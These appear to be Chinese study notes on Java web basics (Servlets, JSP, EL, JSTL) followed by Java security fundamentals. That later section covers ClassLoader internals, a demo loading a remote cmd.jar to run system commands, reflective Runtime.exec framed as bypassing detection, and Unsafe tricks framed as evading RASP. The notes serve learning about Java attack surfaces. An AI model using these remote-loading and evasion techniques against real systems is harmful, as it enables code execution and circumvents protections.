    public class two extends HttpServlet {
        private static final long serialVersionUID = 1L;
        
        /**
        * @see HttpServlet#HttpServlet()
        */
        public two() {
            super();
            // TODO Auto-generated constructor stub
        }

        /**
        * @see HttpServlet#doGet(HttpServletRequest request, HttpServletResponse response)
        */
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            // TODO Auto-generated method stub
            response.getWriter().append("Served at: ").append(request.getContextPath());
        }

        /**
        * @see HttpServlet#doPost(HttpServletRequest request, HttpServletResponse response)
        */
        protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            // TODO Auto-generated method stub
            doGet(request, response);
        }

    }

    ```
*  web.xml
   1. 一个class 可以同时对应多个url-pattern
   2. 可以在url-pattern 中使用通配符
   3. tomcat的web.xml文件是所有项目的父文件
   4. 通过在类前添加注解不需要使用web.xml
   5. 配置指定错误处理servlet


            @WebServlet("/two") 
    5. 通过ServletContext对象可以在多个Servlet之间传递数据(全局)
        ```java
            ServletContext context = this.getServletContext();
            
            context.setAttribute("name", "nihoa");
            //在另一个servlet中获取数据
            context.getAttribute("name");
        ```
    6. response 可以设置所有与响应有关的东西
        ```java
            PrintWriter outPrintWriter = response.getWriter();
		    outPrintWriter.write("你好");
		    //响应字节流
		    ServletOutputStream outputStream = response.getOutputStream();
		    outputStream.write("hello".getBytes());
            //解决返回乱码
            response.setContentType("text/html;charset=utf-8");
            //重定向(地址要变，2次请求)
            response.sendRedirect("/two");
        ```

    7. 获取参数
        ```java

         //获取参数值
         String nameString = request.getParameter("name");
            //获取参数明
         Enumeration<String> namEnumeration = request.getParameterNames();
		 while(namEnumeration.hasMoreElements())
		 {
	        namEnumeration.nextElement();
		}
         //获取参数键值对
        Map<String,String[]> map = request.getParameterMap();
		      for(String key: map.keySet())
		        {
			      String[] valueString = map.get(key);
		        }
        //请求转发
        request.getRequestDispatcher("/two").forward(request,response); //地址不变

        //保存数据(一次请求，请求转发适用)
            request.setAttribute("naem","sdfas");
            request.getAttribute("naem");
        //编码接收的数据
            request.setCharacterEncoding("utf-8");

        ```
    8. cookie
        ```java
        //创建cookie
            Cookie ck = new Cookie("id","1231");
            response.addCookie(id);
        //获得cookie
            request.getCookie();

        ```
    9. session
        ```java
        HttpSession session =request.getSession();
        session.setAttribute("username",username);
        session.getAttribute("username").toString();
        ```


## jsp
 1. java

    <%%> 中写java代码
        <%=%> 输出 
    
2. 指令
    1. page


            <%@ page import="java.util.*" %> //导入包
                <%@ page pageEncoding="utf-8" %>//设置编码
             <%@ errorPage="error.jsp" %>
            //抛出异常显示异常页面
            <%@ page isErrorPage="true"%>
            //异常页面配置true可以通过exception.getMessage()获取具体异常

3. 标签
    <jsp:forward page="a.jsp">
4. JavaBean
5. EL 表达式${1+2}
    1. El 内置对象
        
            pageScope,requestScope,
            sessionScope,applicationScope
            param,paramValues,header,headerValues,initParam,cookie,pageContext,
    2. pageScope ${pageScope.name} 等同与pageContext.getAttribute('name')
    3. requestScope ${requestScope.name} 等同与 request.getAttribute('name')
    4. 其他的类似
6. 标签库
    1. 导入标签库
    2. 使用标签库
        1. <c:set var="name" value="zhangsan" scope="session"> //把值放在session中通过el表达式${sessionScope.name}取出来
    3. foreach 遍历list集合
        <c: forEach items="${request.list}" var="item">
            ${item}
        </c:forEach>

# java 安全
## java安全基础
### ClassLoader
   * classloader基础
      1.  一切的Java类都必须经过JVM加载后才能运行，而ClassLoader的主要作用就是Java类文件的加载。在JVM类加载器中最顶层的是`Bootstrap ClassLoader(JAVA_HOME/jre/classes/)(引导类加载器)`、`Extension ClassLoader(扩展类加载器)(JAVA_HOME/jre/lib/ext)`、`App ClassLoader(系统类加载器)(工程目录)`，AppClassLoader是默认的类加载器，如果类加载时我们不指定类加载器的情况下，默认会使用AppClassLoader加载类，ClassLoader.getSystemClassLoader()返回的系统类加载器也是AppClassLoader

      2.  值得注意的是某些时候我们获取一个类的类加载器时候可能会返回一个null值，如:java.io.File.class.getClassLoader()将返回一个null对象，因为java.io.File类在JVM初始化的时候会被Bootstrap ClassLoader(引导类加载器)加载(该类加载器实现于JVM层，采用C++编写)，我们在尝试获取被Bootstrap ClassLoader类加载器所加载的类的ClassLoader时候都会返回null。
      3. ClassLoader类有如下核心方法：

                loadClass(加载指定的Java类)
                findClass(查找指定的Java类)
                findLoadedClass(查找JVM已经加载过的类)
                defineClass(定义一个Java类)
                resolveClass(链接指定的Java类)
      4. 双亲委托模型原理介绍

            ClassLoader使用的是`双亲委托模型`来搜索类的，每个ClassLoader实例都有一个父类加载器的引用（`不是继承的关系，是一个包含的关系`），虚拟机内置的类加载器（Bootstrap ClassLoader）本身没有父类加载器，但可以用作其它ClassLoader实例的的父类加载器。当一个ClassLoader实例需要加载某个类时，它会试图亲自搜索某个类之前，先把这个任务委托给它的父类加载器，这个过程是由上至下依次检查的，首先由最顶层的类加载器Bootstrap ClassLoader试图加载，如果没加载到，则把任务转交给Extension ClassLoader试图加载，如果也没加载到，则转交给App ClassLoader 进行加载，如果它也没有加载得到的话，则返回给委托的发起者，由它到指定的文件系统或网络等URL中加载该类。如果它们都没有加载到这个类时，则抛出ClassNotFoundException异常。否则将这个找到的类生成一个类的定义，并将它加载到内存当中，最后返回这个类在内存中的Class实例对象。
       6. 双亲委托的代码原理
       ```java
                public abstract class ClassLoader {


                protected Class<?> loadClass(String name, boolean resolve)
                    throws ClassNotFoundException
                {
                    synchronized (getClassLoadingLock(name)) {
                        // First, check if the class has already been loaded
                        Class<?> c = findLoadedClass(name);
                        if (c == null) {
                            long t0 = System.nanoTime();
                            try {
                                if (parent != null) {
                                    c = parent.loadClass(name, false);
                                } else {
                                    c = findBootstrapClassOrNull(name);
                                }
                            } catch (ClassNotFoundException e) {
                                // ClassNotFoundException thrown if class not found
                                // from the non-null parent class loader
                            }

                            if (c == null) {
                                // If still not found, then invoke findClass in order
                                // to find the class.
                                long t1 = System.nanoTime();
                                c = findClass(name);

                                // this is the defining class loader; record the stats
                                sun.misc.PerfCounter.getParentDelegationTime().addTime(t1 - t0);
                                sun.misc.PerfCounter.getFindClassTime().addElapsedTimeFrom(t1);
                                sun.misc.PerfCounter.getFindClasses().increment();
                            }
                        }
                        if (resolve) {
                            resolveClass(c);
                        }
                        return c;
                    }
                }

            //...
            }
        ```

       5. 根据原理可知加载流程

                Classloader的loadClass方法(构造方法中获取parent(就是目前加载器的父类加载器(不是继承)))
                     |
                判断是否加载
                   |                 |
                   是                否
                   |                  |
                返回Class实例  判断父类加载器是否为空
                            |          |
                            是         否
                             |          |
                        根加载器加载    父类加载器调用Classloader的loadclass(重复上面操作)
                            |
                            失败
                            |
               调用当前类的classloader的findclass去查找
                            |
                        找到
                            |
                        调用defineClass注册类，返回一个Class实例

                               


      5. 为什么要使用双亲委托这种模型呢？

            因为这样可以避免重复加载，当父亲已经加载了该类的时候，就没有必要子ClassLoader再加载一次。考虑到安全因素，我们试想一下，如果不使用这种委托模式，那我们就可以随时使用自定义的String来动态替代java核心api中定义的类型，这样会存在非常大的安全隐患，而双亲委托的方式，就可以避免这种情况，因为String已经在启动时就被引导类加载器（Bootstrcp ClassLoader）加载，所以用户自定义的ClassLoader永远也无法加载一个自己写的String，除非你改变JDK中ClassLoader搜索类的默认算法。
   * 自定义classloader
     1. URLClassLoader 
        java.lang.ClassLoader是所有的类加载器的父类，java.lang.ClassLoader有非常多的子类加载器，比如我们用于加载jar包的java.net.URLClassLoader其本身通过继承java.lang.ClassLoader类，重写了findClass方法从而实现了加载目录class文件甚至是远程资源文件。
     2. 获取classloader

        this.getClass().getClassLoader().loadClass("com.anbai.sec.classloader.TestHelloWorld"); 
        
         // ClassLoader加载TestHelloWorld示例,getClass返回此运行Object的运行时类
         //因此，如果你知道一个实例，那么你可以通过实例的“getClass()”方法获得该对象的类型类，如果你知道一个类型，那么你可以使用“.class”的方法获得该类型的类型类。
     3. 重写findclass

        如果系统的加载器加载的路径根本就不存在于我们的classpath，那么我们可以使用自定义类加载器重写findClass方法，然后在调用defineClass方法的时候传入TestHelloWorld类的字节码的方式来向JVM中定义一个TestHelloWorld类，最后通过反射机制就可以调用TestHelloWorld类的hello方法了。

     4. 自定义代码实例
        ```java
        package classLoaderDemoOne;

        public class newclassloader extends ClassLoader {
            
            //定义类名
                String testclassnameString = "com.anbai.sec.classloader.TestHelloWorld";
                
                // TestHelloWorld类字节码(当让也可以通过文件读取)
                private static byte[] testClassBytes = new byte[]{
                        -54, -2, -70, -66, 0, 0, 0, 51, 0, 17, 10, 0, 4, 0, 13, 8, 0, 14, 7, 0, 15, 7, 0,
                        16, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
                        101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101,
                        1, 0, 5, 104, 101, 108, 108, 111, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108,
                        97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114, 99,
                        101, 70, 105, 108, 101, 1, 0, 19, 84, 101, 115, 116, 72, 101, 108, 108, 111, 87, 111,
                        114, 108, 100, 46, 106, 97, 118, 97, 12, 0, 5, 0, 6, 1, 0, 12, 72, 101, 108, 108, 111,
                        32, 87, 111, 114, 108, 100, 126, 1, 0, 40, 99, 111, 109, 47, 97, 110, 98, 97, 105, 47,
                        115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 101, 114, 47, 84, 101, 115,
                        116, 72, 101, 108, 108, 111, 87, 111, 114, 108, 100, 1, 0, 16, 106, 97, 118, 97, 47, 108,
                        97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0, 3, 0, 4, 0, 0, 0, 0, 0, 2, 0, 1,
                        0, 5, 0, 6, 0, 1, 0, 7, 0, 0, 0, 29, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0,
                        1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 7, 0, 1, 0, 9, 0, 10, 0, 1, 0, 7, 0, 0, 0, 27, 0, 1,
                        0, 1, 0, 0, 0, 3, 18, 2, -80, 0, 0, 0, 1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 10, 0, 1, 0, 11,
                        0, 0, 0, 2, 0, 12
                };
                //重写findclass方法
                @Override
                public Class<?> findClass(String name) throws ClassNotFoundException {
                    // 只处理TestHelloWorld类
                    if (name.equals(testclassnameString)) {
                        // 调用JVM的native方法定义TestHelloWorld类
                        System.out.print(this.getParent());
                        return defineClass(testclassnameString, testClassBytes, 0, testClassBytes.length);
                    }
                
                    return super.findClass(testclassnameString);

                    

                }
        }

        ```
        测试
        ```java
        package classLoaderDemoOne;
        import java.lang.reflect.InvocationTargetException;
        import java.lang.reflect.Method;

        public class classloadertest {
            public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, SecurityException, IllegalArgumentException, InvocationTargetException {
            newclassloader newclassloader = new newclassloader();
            //System.out.println(newclassloader.getParent());
            Class  testClass = newclassloader.loadClass("com.anbai.sec.classloader.TestHelloWorld");
            try {
                Object testObject = testClass.newInstance();
                Method method = testClass.getDeclaredMethod("hello");
                String asString =(String)method.invoke(testObject);
                System.out.print(asString);
                
                System.out.print(testObject.toString());
            } catch (InstantiationException | IllegalAccessException e) 
            {
                // TODO Auto-generated catch block	
                e.printStackTrace();
            }
                
            
            }

        }
        ```
        远程加载可以通过URLClassLoader(已经继承了ClassLoader)可以实例化
        ```java
        package classLoaderDemoOne;
        import java.io.InputStream;
        import java.net.URL;
        import java.net.URLClassLoader;

        /**
        * Creator: yz
        * Date: 2019/12/18
        */
        public class yuanchengDemo {

            public static void main(String[] args) {
                try {
                    // 定义远程加载的jar路径
                    URL url = new URL("https://javaweb.org/tools/cmd.jar");

                    // 创建URLClassLoader对象，并加载远程jar包
                    URLClassLoader ucl = new URLClassLoader(new URL[]{url});

                    // 定义需要执行的系统命令
                    String cmd = "whoami";

                    // 通过URLClassLoader加载远程jar包中的CMD类
                    Class cmdClass = ucl.loadClass("CMD");

                    // 调用CMD类中的exec方法，等价于: Process process = CMD.exec("whoami");
                    Process process = (Process) cmdClass.getMethod("exec", String.class).invoke(null, cmd);

                    // 获取命令执行结果的输入流
                    InputStream           in   = process.getInputStream();
                    byte[]                b    = new byte[1024];
                    int length;
                    while((length=in.read(b))>-1) {
                        System.out.println(new String(b, 0, length));
                    }

                } catch (Exception e) {
                    e.printStackTrace();
                }
            }

        }
        ```
        
        参考
        [Classloader详解](https://www.jianshu.com/p/c32878173a10)

        [一文读懂类加载机制--ClassLoader](https://www.cnblogs.com/sunnick/p/9609326.html)
### Runtime
   * Runtime的构造方法是一个私有方法，不希望除了其自身的任何人去创建该类的实例，通过以下2种方法获取实例
    1. Runtime中有个static 方法 getRuntime() 会返回一个Runtime实例，则可以如下执行命令
        Runtime.getRuntime().exec("whoami")
    2. 通过反射(绕过检测)

        ```java
        package fansheone;

        import java.lang.reflect.Constructor;
        import java.lang.reflect.Method;


        public class fansheonedemo {
            public static void main(String[] args) throws Exception
            {
                
                Class aClass = Class.forName("java.lang.Runtime");
                Constructor constructor = aClass.getDeclaredConstructor();
                constructor.setAccessible(true);
            
                Object object = constructor.newInstance();
                Method aMethod = aClass.getMethod("exec",String.class);
                aMethod.setAccessible(true);
                Process aProcess = (Process) aMethod.invoke(object,"whoami");
                byte [] a = new byte[1024];
                java.io.InputStream aInputStream = aProcess.getInputStream();
                int length;
                while((length=aInputStream.read(a))>-1)
                {
                    System.out.print(new String(a,0,length));
                }
            


                
            }

         }
        ```
### sun.misc.Unsafe
* sun.misc.Unsafe 是Java底层API(仅限Java内部使用,反射可调用)提供的一个神奇的Java类，Unsafe提供了非常底层的内存、CAS、线程调度、类、对象等操作、Unsafe正如它的名字一样它提供的几乎所有的方法都是不安全的
    ```java
    import sun.reflect.CallerSensitive;
    import sun.reflect.Reflection;

    public final class Unsafe {

        private static final Unsafe theUnsafe;

        static {
            theUnsafe = new Unsafe();  //获取Unsafe变量的值也就是获取到Unsafe变量
            省去其他代码......
        }

        private Unsafe() {
        }

        @CallerSensitive
        public static Unsafe getUnsafe() {
            Class var0 = Reflection.getCallerClass();
            if (var0.getClassLoader() != null) {
                throw new SecurityException("Unsafe");
            } else {
                return theUnsafe;
            }
        }
    ```
    * 从上面的代码可以看出final表示不能被继承，私有构造方法不能实现对象，且如果通过getUnsafe方法获取的话，还会检测类加载器

* 获取Unsafe实例的方法
    1. 通过反射获取theUnsafe的值再获取Unsafe实例
        ```java
            Class aClass = sun.misc.Unsafe.class;
			Field field = aClass.getDeclaredField("theUnsafe");//theUnsafe属性获取的是一个Unsafe实例
			field.setAccessible(true);
			Unsafe unsafe =(Unsafe)field.get(null);
        ```
    2. 通过反射获取
        ```java
            Class aClass = sun.misc.Unsafe.class;
			Constructor aConstructor = aClass.getDeclaredConstructor();//因为构造方法为private
			aConstructor.setAccessible(true);
			Unsafe unsafe = (Unsafe) aConstructor.newInstance();
        ```

*  Unsafe 的allocateInstance方法 无视构造方法创建类实例
    * 假设某个类因为某种原因(RSAP)我们不能直接通过反射的方式去创建UnSafeTest类实例，那么这个时候使用Unsafe的allocateInstance方法就可以绕过这个限制了
      * [RSAP](https://www.cnblogs.com/softlin/p/7078619.html?utm_source=itdadao&utm_medium=referral)(简单理解)
            
          * RASP就是运行时应用自我保护（Runtime application self-protection）的缩写，正如RASP字面意思一样，这是运行在运行时的一种防护技能；也就是说RASP能够在程序运行期间实施自我保护，监控与过滤有害信息，还能够拥结合程序的当前上下文实施精确、实时的防护； 
            * Java中实现RASP的几个关键点：
            1. 修改java的.class 文件(Javassist、与ASM)
            2. jvm解释执行.class 时候进行注入(-javaagent参数配置Java代理)
    * 创建实例的的代码
    ```java
    //先获取unsafe1实例
       UnSafeTest test = (UnSafeTest) unsafe1.allocateInstance(UnSafeTest.class);
    ```
* Unsafe defineClass方法可以直接向JVM注册一个类，如果ClassLoader 被限制的情况下我们还可以使用Unsafe的defineClass方法实现同样的功能
    * 使用Unsafe向JVM中注册类，返回Class
    ```java
        Class helloword = Unsafe.defineClass(TEST_CLASS_NAME, TEST_CLASS_BYTES, 0, TEST_CLASS_BYTES.length, classLoader, domain);
    ```
    